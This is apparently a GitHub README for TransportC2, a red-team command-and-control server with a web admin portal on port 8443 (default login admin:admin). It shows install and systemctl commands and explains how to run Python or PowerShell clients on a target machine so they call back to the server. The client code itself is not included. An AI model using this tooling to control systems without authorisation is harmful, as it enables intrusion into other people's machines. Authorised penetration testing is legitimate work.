



# TransportC2
&nbsp;&nbsp;

TransportC2 is a command and control server that runs in the background as a service and allows interaction with clients through a private web interface. This allows penetration testers and red teamers the ability maintain their connection without being tied to an active session. Once logged into the admin interface, add new authorized users for team interaction and collaboration. 

## Server
Built in Python3, the TransportC2 server was designed for and tested on Debian based Linux Distributions, and has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact with C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has clients written in Python 2/3 and PowerShell. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 client.py 127.0.0.1 443
```
```bash
Import-Module .\client.ps1
Invoke-Client -ServerIP 127.0.0.1 -Port 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:



## Screenshots




## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin
